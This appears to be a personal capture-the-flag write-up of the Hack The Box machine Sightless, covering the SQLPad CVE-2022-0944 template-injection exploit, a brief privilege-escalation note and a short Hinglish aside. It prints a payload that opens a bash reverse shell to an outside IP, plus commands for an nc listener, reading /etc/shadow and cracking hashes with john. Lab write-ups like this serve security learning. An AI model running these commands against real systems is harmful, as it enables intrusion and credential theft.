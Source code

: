 
2024-11-02 11:18

Source: #CTF #htb

Tags: 

### Foothold

The target system has only three open ports: 21 (ftp), 22 (ssh), and 80 (http)
port 80 has a website and the website offers some services. Among the available services, there’s a redirection to `sqlpad.sightless.htb`. To access this service, ensure that you add the domain `sqlpad.sightless.htb` to your hosts file.
### Exploit

The installed version of SQLPad, identified as 6.10.0, can be found via BurpSuite or by clicking `info` on the top right hand of the screen. While analyzing the vulnerabilities in this version, it was discovered that it is affected by CVE-2022-0944. ([Link](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb))

Manual method for the exploit is as follows- 
- set up a listener by using `nc -lvnp 9000`
	1. **Click on “Connection”**
	2. **Create a New Connection**
	3. **Choose MySQL as the Database**
	4. **Enter the Payload or credentials into the Database**
	5. **Test the Connection** to ensure the configuration is correct and the connection is successful.

**Payload**  - 
```
{{ process.mainModule.require(‘child_process’).exec(‘bash -c “bash -i >& /dev/tcp/10.10.14.9/9001 0>&1”’) }}
```
if this doesn't work refer [this post](https://www.reddit.com/r/hackthebox/comments/1fiba4r/stuck_on_sightless_box/)

This CVE also has a prebuilt exploit that can be found in the References section 
### User Flag

Upon further examination, I discovered that the `.dockerenv` file is indeed present, confirming the application is running within a Docker container. Additionally, after inspecting the system’s users, I identified two accounts: one belonging to “michael” and another to “node.”

access the `/etc/shadow` file and we see hashes of michael user 
copy the hash completely in a file named `hash` and use john to crack it 
```sh
john hash -w=/usr/share/wordlists/rockyou.txt
```
### Priv esc







get linpeas in your system via wget 
[[File transfer]]


jabhi wget use kar raha hai file transfer ke liye toh apne kali mei hi karna server shuru, windows mei nhi

### References
https://app.hackthebox.com/machines/624

Exploit - https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944

https://thecybersecguru.com/ctf-walkthroughs/mastering-sightless-beginners-guide-from-hackthebox/
https://www.youtube.com/watch?v=DWX6Fp6fWt4